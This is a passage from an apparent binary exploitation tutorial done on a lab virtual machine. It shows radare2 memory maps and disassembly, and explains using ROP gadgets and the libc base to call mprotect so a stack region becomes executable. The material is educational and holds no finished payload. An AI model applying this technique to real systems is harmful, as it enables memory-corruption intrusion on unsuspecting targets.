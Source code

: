```
0x00007ffff7dcf000 # 0x00007ffff7dd3000 - usr    16K s -rw- unk0 unk0
0x00007ffff7dd3000 # 0x00007ffff7dfc000 - usr   164K s -r-x /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._r_x
0x00007ffff7fdf000 # 0x00007ffff7fe1000 - usr     8K s -rw- unk1 unk1
0x00007ffff7ff8000 # 0x00007ffff7ffb000 - usr    12K s -r-- [vvar] [vvar] ; map.vvar_._r
0x00007ffff7ffb000 # 0x00007ffff7ffc000 - usr     4K s -r-x [vdso] [vdso] ; map.vdso_._r_x
0x00007ffff7ffc000 # 0x00007ffff7ffd000 - usr     4K s -r-- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._rw
0x00007ffff7ffd000 # 0x00007ffff7ffe000 - usr     4K s -rw- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 # 0x00007ffff7fff000 - usr     4K s -rw- unk2 unk2 ; map.unk0._rw
0x00007ffffffde000 # 0x00007ffffffff000 - usr   132K s -rw- [stack] [stack] ; map.stack_._rw
0xffffffffff600000 # 0xffffffffff601000 - usr     4K s ---x [vsyscall] [vsyscall] ; map.vsyscall_.___x


|           0x5555555547e6      48bf00e0fdff.  movabs rdi, map.stack_._rw ; 0x7ffffffde000
|           0x5555555547f0      e83bfeffff     call sym.imp.mprotect
|           ;-- rip:
|           0x5555555547f5 b    85c0           test eax, eax
|       ,=< 0x5555555547f7      7535           jne 0x55555555482e
|       |   0x5555555547f9      488d3df50000.  lea rdi, qword str.i__Operation_successfull ; 0x5555555548f5 ; "[i] Operation successfull" ; const char * s
|       |   0x555555554800      e8fbfdffff     call sym.imp.puts       ; int puts(const char *s)
|       |   0x555555554805      8b45fc         mov eax, dword [local_4h]
```
By doing this you'll realise how params are passed by rdi, rsi and rdx. And how our memory section of choice gets marked as executable after the call:
```
dc
dm
0x00007ffff7ffd000 # 0x00007ffff7ffe000 - usr     4K s -rw- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 # 0x00007ffff7fff000 - usr     4K s -rw- unk2 unk2 ; map.unk0._rw
0x00007ffffffde000 # 0x00007ffffffdf000 - usr     4K s -rwx unk3 unk3 ; rdi
0x00007ffffffdf000 # 0x00007ffffffff000 - usr   128K s -rw- [stack] [stack]
0xffffffffff600000 # 0xffffffffff601000 - usr     4K s ---x [vsyscall] [vsyscall] ; map.vsyscall_.___x
```
That's what we want to see in our exploit. Note that you can also cat /proc/<pid>/maps to see the same memory mappings you see in radare2.
#### Crafting the exploit
Going back to our exploit, what follows is mostly known already. Now we need to find the rop gadgets / addresses for calling mprotect, that is the addr of mprotect and some rop gadgets to load our params into it. We can do that by directly looking at memory addresses and/or by locating the libc base address and doing (relative) calls from there as we saw.
```
lab@lab-VirtualBox:~/exploit-pattern$ cat /proc/20716/maps 
555555554000-555555555000 r-xp 00000000 08:01 925278                     /home/lab/exploit-pattern/greet
555555754000-555555755000 r--p 00000000 08:01 925278                     /home/lab/exploit-pattern/greet
555555755000-555555756000 rw-p 00001000 08:01 925278                     /home/lab/exploit-pattern/greet
555555756000-555555777000 rw-p 00000000 00:00 0                          [heap]
7ffff79e2000-7ffff7bc9000 r-xp 00000000 08:01 1179648                    /lib/x86_64-linux-gnu/libc-2.27.so
7ffff7bc9000-7ffff7dc9000 ---p 001e7000 08:01 1179648                    /lib/x86_64-linux-gnu/libc-2.27.so
7ffff7dc9000-7ffff7dcd000 r--p 001e7000 08:01 1179648                    /lib/x86_64-linux-gnu/libc-2.27.so
7ffff7dcd000-7ffff7dcf000 rw-p 001eb000 08:01 1179648                    /lib/x86_64-linux-gnu/libc-2.27.so
```